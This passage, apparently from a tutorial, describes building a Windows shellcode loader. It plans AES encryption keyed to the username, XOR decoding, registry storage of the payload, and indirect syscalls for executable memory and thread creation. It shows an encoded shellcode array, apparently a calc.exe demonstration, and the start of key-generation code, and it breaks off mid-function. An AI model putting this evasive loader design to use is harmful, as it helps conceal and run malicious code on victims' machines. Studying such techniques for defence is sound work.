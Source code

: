 So, beyond our shellcode, we'll use the following constructions: an AES encryption routine, an AES decryption routine, a reverse XOR routine, functions to read from and write to the Windows registry, and indirect system calls for allocating read-write-execute memory and spinning up new process threads. 

But first, our AES routines. We generate our encryption key using the username of the current user. If the username is less than 16 characters, we just pad it with `0x01`. We then follow the conventions for using the BCrypt API from Microsoft[^4].

```C
const BYTE shellcode[] = {
    0xb7, 0x03, 0xc8, 0xaf, 0xbb, 0xa3, 0x8b, 0x4b, 0x4b, 0x4b, 0x0a, 0x1a, 0x0a, 0x1b, 0x19, 0x1a, 
    0x1d, 0x03, 0x7a, 0x99, 0x2e, 0x03, 0xc0, 0x19, 0x2b, 0x03, 0xc0, 0x19, 0x53, 0x03, 0xc0, 0x19, 
    0x6b, 0x03, 0xc0, 0x39, 0x1b, 0x03, 0x44, 0xfc, 0x01, 0x01, 0x06, 0x7a, 0x82, 0x03, 0x7a, 0x8b, 
    0xe7, 0x77, 0x2a, 0x37, 0x49, 0x67, 0x6b, 0x0a, 0x8a, 0x82, 0x46, 0x0a, 0x4a, 0x8a, 0xa9, 0xa6, 
    0x19, 0x0a, 0x1a, 0x03, 0xc0, 0x19, 0x6b, 0xc0, 0x09, 0x77, 0x03, 0x4a, 0x9b, 0xc0, 0xcb, 0xc3, 
    0x4b, 0x4b, 0x4b, 0x03, 0xce, 0x8b, 0x3f, 0x2c, 0x03, 0x4a, 0x9b, 0x1b, 0xc0, 0x03, 0x53, 0x0f, 
    0xc0, 0x0b, 0x6b, 0x02, 0x4a, 0x9b, 0xa8, 0x1d, 0x03, 0xb4, 0x82, 0x0a, 0xc0, 0x7f, 0xc3, 0x03, 
    0x4a, 0x9d, 0x06, 0x7a, 0x82, 0x03, 0x7a, 0x8b, 0xe7, 0x0a, 0x8a, 0x82, 0x46, 0x0a, 0x4a, 0x8a, 
    0x73, 0xab, 0x3e, 0xba, 0x07, 0x48, 0x07, 0x6f, 0x43, 0x0e, 0x72, 0x9a, 0x3e, 0x93, 0x13, 0x0f, 
    0xc0, 0x0b, 0x6f, 0x02, 0x4a, 0x9b, 0x2d, 0x0a, 0xc0, 0x47, 0x03, 0x0f, 0xc0, 0x0b, 0x57, 0x02, 
    0x4a, 0x9b, 0x0a, 0xc0, 0x4f, 0xc3, 0x03, 0x4a, 0x9b, 0x0a, 0x13, 0x0a, 0x13, 0x15, 0x12, 0x11, 
    0x0a, 0x13, 0x0a, 0x12, 0x0a, 0x11, 0x03, 0xc8, 0xa7, 0x6b, 0x0a, 0x19, 0xb4, 0xab, 0x13, 0x0a, 
    0x12, 0x11, 0x03, 0xc0, 0x59, 0xa2, 0x1c, 0xb4, 0xb4, 0xb4, 0x16, 0x03, 0xf1, 0x4a, 0x4b, 0x4b, 
    0x4b, 0x4b, 0x4b, 0x4b, 0x4b, 0x03, 0xc6, 0xc6, 0x4a, 0x4a, 0x4b, 0x4b, 0x0a, 0xf1, 0x7a, 0xc0, 
    0x24, 0xcc, 0xb4, 0x9e, 0xf0, 0xbb, 0xfe, 0xe9, 0x1d, 0x0a, 0xf1, 0xed, 0xde, 0xf6, 0xd6, 0xb4, 
    0x9e, 0x03, 0xc8, 0x8f, 0x63, 0x77, 0x4d, 0x37, 0x41, 0xcb, 0xb0, 0xab, 0x3e, 0x4e, 0xf0, 0x0c, 
    0x58, 0x39, 0x24, 0x21, 0x4b, 0x12, 0x0a, 0xc2, 0x91, 0xb4, 0x9e, 0x28, 0x2a, 0x27, 0x28, 0x65, 
    0x2e, 0x33, 0x2e, 0x4b
};

const DWORD shellcodeSize = sizeof(shellcode);

// AES Configuration
#define AES_KEY_LENGTH 16  // 128-bit AES
#define AES_BLOCK_SIZE 16

// Helper function to generate encryption key from user environment
BOOL GenerateKeyFromEnvironment(BYTE* key, DWORD keySize) {
    CHAR username[UNLEN + 1];
    DWORD usernameLen = UNLEN + 1;

    if (!GetUserNameA(username, &usernameLen)) {
        printf("Failed to get username: %d\n", GetLastError());
        return FALSE;
    }

    BYTE padding = 0x01;
```

[^3]: https://ntdoc.m417z.com/ntcreatethreadex
[^5]: https://learn.microsoft.com/en-us/windows/win32/api/winreg/